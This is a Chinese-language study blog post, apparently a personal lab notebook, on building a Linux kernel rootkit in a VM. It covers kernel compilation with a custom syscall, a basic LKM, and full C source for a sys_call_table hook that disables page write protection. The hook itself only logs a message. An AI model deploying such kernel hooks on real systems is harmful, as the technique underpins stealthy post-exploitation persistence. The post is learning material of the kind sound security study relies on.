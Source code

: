 ```yaml
---
title: r00tk1t init
date: 2017-01-12 21:33:55
categories:
- study
- misc
tags:
- exploit
- C/C++
- r00tk1t
---
```


参考:
[谷大神:http://www.freebuf.com/articles/system/54263.html](http://www.freebuf.com/articles/system/54263.html)
[https://chirath02.wordpress.com/tag/asmlinkage/](https://chirath02.wordpress.com/tag/asmlinkage/)
[r00tk1t基础实验](http://mp.weixin.qq.com/s?__biz=MjM5OTk4MDE2MA==&mid=2655113676&idx=3&sn=07e450fb7553f87fa3c9fa5fd186c5b0&chksm=bc864c238bf1c5350ddc594555f4412faa42df025d49e2364884b851d7ea9a1e2d1cfda697d4#rd)
[https://memset.wordpress.com/2010/12/28/syscall-hijacking-simple-rootkit-kernel-2-6-x/](https://memset.wordpress.com/2010/12/28/syscall-hijacking-simple-rootkit-kernel-2-6-x/)
[https://memset.wordpress.com/2011/01/20/syscall-hijacking-dynamically-obtain-syscall-table-address-kernel-2-6-x/](https://memset.wordpress.com/2011/01/20/syscall-hijacking-dynamically-obtain-syscall-table-address-kernel-2-6-x/)
[http://www.mallocfree.com/data/compile-linux-kernel-mallocfree.com.pdf](http://www.mallocfree.com/data/compile-linux-kernel-mallocfree.com.pdf)


# What's this?
关于其概念可以参考[维基百科](https://en.wikipedia.org/wiki/Rootkit)。

# 实验环境
建议不要在物理机下实验~因此我根据[这里](https://chirath02.wordpress.com/tag/asmlinkage/)介绍的情况便去ubuntu的官方网站下载了ubuntu 15.10的i386镜像。然后用VMWare安装ISO，便开始按照里面的指令进行修改和编译。其中增加的系统调用是根据上述的[r00tk1t](http://mp.weixin.qq.com/s?__biz=MjM5OTk4MDE2MA==&mid=2655113676&idx=3&sn=07e450fb7553f87fa3c9fa5fd186c5b0&chksm=bc864c238bf1c5350ddc594555f4412faa42df025d49e2364884b851d7ea9a1e2d1cfda697d4#rd)增加的。修改系统调用是主要的方式之一，因此可以借鉴。

# 编译部分
为了方便可以直接在虚拟机里面切换到root用户，然后键入`# apt-get source linux-image-$(uname -r)`即可下载虚拟机本内核源代码。然后cp到/usr/src目录，再解压出来。然后安装编译所需要的一些依赖工具。
```bash
$ sudo apt-get update
$ sudo apt-get build-dep linux-image-$(uname -r)
$ sudo apt-get install kernel-package  # for make-kpkg clean
$ sudo apt-get install libncurses-dev  # for make menuconfig
```
再之后按照教程部分增加系统调用，照葫芦画瓢。然后就`make menuconfig`配置内核编译选项，教程给的是默认(不知道修改是否编译快一些)。而后便可以开始漫长的编译过程了。
```bash
sudo make
sudo make modules_install˖
sudo make install
sudo mkinitramfs -o /boot/initrd.img-2.6.32.65
sudo update-initramfs -c -k 2.6.32.65
sudo update-grub2 

sudo vim /etc/default/grub     //注释掉下面的部分
#GRUB_HIDDEN_TIMEOUT=0
sudo update-grub2 
```
上述参考mallocfree的教程。可以使得不用完全覆盖掉原有内核选项而使得grub增加新的选项来供用户选择。
按照教程第一部分部分结果如下:至少我们工程的从内核任务链表中实现了相应的功能。
```bash
root@r00t:~# uname -r
4.2.2
root@r00t:~# ps aux | grep sshd
root       655  0.0  0.5  10432  5320 ?        Ss   20:13   0:00 /usr/sbin/sshd -D
root      1144  0.0  0.6  13652  6268 ?        Ss   20:13   0:00 sshd: r00t [priv]   
r00t      1209  0.1  0.2  13652  2948 ?        S    20:13   0:00 sshd: r00t@pts/8    
root      1248  0.0  0.6  13652  6196 ?        Ss   20:14   0:00 sshd: r00t [priv]   
r00t      1285  0.0  0.2  13652  2960 ?        S    20:14   0:00 sshd: r00t@pts/9    
root      1330  0.0  0.2   5972  2308 pts/8    S+   20:19   0:00 grep --color=auto sshd
root@r00t:~# ./testPname 
Enter process to find
sshd
PID = 655
         PID = 1144
                   PID = 1209
                             PID = 1248
                                       PID = 1285
                                                 System call returned 0
root@r00t:~# 


```
# LKM
按照谷大神的教程第一个LKM程序编译如下:
```bash
root@r00t:~/LKM# make
make -C /lib/modules/4.2.2/build SUBDIRS=/root/LKM modules
make[1]: Entering directory '/usr/src/linux-4.2.2'
  CC [M]  /root/LKM/lkm.o
  Building modules, stage 2.
  MODPOST 1 modules
  CC      /root/LKM/lkm.mod.o
  LD [M]  /root/LKM/lkm.ko
make[1]: Leaving directory '/usr/src/linux-4.2.2'
root@r00t:~/LKM# insmod lkm.ko 
root@r00t:~/LKM# dmesg | tail -n 1
[ 4019.602327] Arciryas:module loaded
root@r00t:~/LKM# lsmod | grep lkm
lkm                    16384  0
root@r00t:~/LKM# rmmod lkm.ko
root@r00t:~/LKM# dmesg | tail -n 2
[ 4019.602327] Arciryas:module loaded
[ 4117.988381] Arciryas:module removed
root@r00t:~/LKM# 
```

# Kernel Hook
- 静态的方式获得syscall表的地址
```bash
root@r00t:~# !cat
cat /boot/System.map-4.2.2 | grep sys_call_table
c1755140 R sys_call_table
root@r00t:~# 

```
- hook代码如下,稍微大概解释以下，内核模块在初始化的时候会检查sys\_call\_table的内存地址是否可写，一般情况下肯定是不能写的，上面的System.map文件中也看到的，因此程序会检查并通过改写其对应的内存页读写属性来强行修改表借此来hook。在模块卸载的时候又将原来的地址修改回来。
```bash

root@r00t:~/LKM/pname# cat captainhook.c
#include <asm/unistd.h>
#include <asm/cacheflush.h>
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/syscalls.h>
#include <asm/pgtable_types.h>
#include <linux/highmem.h>
#include <linux/fs.h>
#include <linux/sched.h>
#include <linux/moduleparam.h>
#include <linux/unistd.h>
#include <asm/cacheflush.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("rutk1t0r");
/*MY sys_call_table address*/
//c1755140
void **system_call_table_addr;
/*my custom syscall that takes process name*/
asmlinkage int (*custom_syscall) (char* name);
/*hook*/
asmlinkage int captain_hook(char* play_here) {
    /*do whatever here (print "HAHAHA", reverse their string, etc)
        But for now we will just print to the dmesg log*/
    printk(KERN_INFO "Pname Syscall:HOOK! HOOK! HOOK! HOOK!...ROOOFFIIOO!");
    return custom_syscall(play_here);
}
/*Make page writeable*/
int make_rw(unsigned long address){
    unsigned int level;
    pte_t *pte = lookup_address(address, &level);
    if(pte->pte &~_PAGE_RW){
        pte->pte |=_PAGE_RW;
    }
    return 0;
}
/* Make the page write protected */
int make_ro(unsigned long address){
    unsigned int level;
    pte_t *pte = lookup_address(address, &level);
    pte->pte = pte->pte &~_PAGE_RW;
    return 0;
}
static int __init entry_point(void){
    printk(KERN_INFO "Captain Hook loaded successfully..\n");
    /*MY sys_call_table address*/
    system_call_table_addr = (void*)0xc1755140;
    /* Replace custom syscall with the correct system call name (write,open,etc) to hook*/
    custom_syscall = system_call_table_addr[__NR_pname];
    /*Disable page protection*/
    make_rw((unsigned long)system_call_table_addr);
    /*Change syscall to our syscall function*/
    system_call_table_addr[__NR_pname] = captain_hook;
    return 0;
}
static int __exit exit_point(void){
        printk(KERN_INFO "Unloaded Captain Hook successfully\n");
    /*Restore original system call */
    system_call_table_addr[__NR_pname] = custom_syscall;
    /*Renable page protection*/
    make_ro((unsigned long)system_call_table_addr);
    return 0;
}
module_init(entry_point);
module_exit(exit_point);
```
- 结果如下:
```bash
root@r00t:~/LKM/pname# insmod captainhook.ko
root@r00t:~/LKM/pname# cd
root@r00t:~# ./testPname 
Enter process to find
sshd
PID = 655
         PID = 1144
                   PID = 1209
                             PID = 1248
                                       PID = 1285
                                                 System call returned 0
root@r00t:~# rmmod captainhook
root@r00t:~# 

## dmesg中输出如下:
[ 1月13 21:49] Captain Hook loaded successfully..
[ 1月13 21:50] Pname Syscall:HOOK! HOOK! HOOK! HOOK!...ROOOFFIIOO!
[ +11.875845] Unloaded Captain Hook successfully

```

# 总结
后续实验应该会参照谷大神的[教程](https://github.com/NoviceLive/research-rootkit)继续学习，关于其防范策略目前还没有什么非常好用的方法，只能靠管理员多注意了。在后渗透测试阶段此隐蔽性非常强，特别是内核级的相对于应用级的更加难以发现，其中有一个应用级的用bash实现的可以[参考学习](https://github.com/cloudsec/brootkit)。
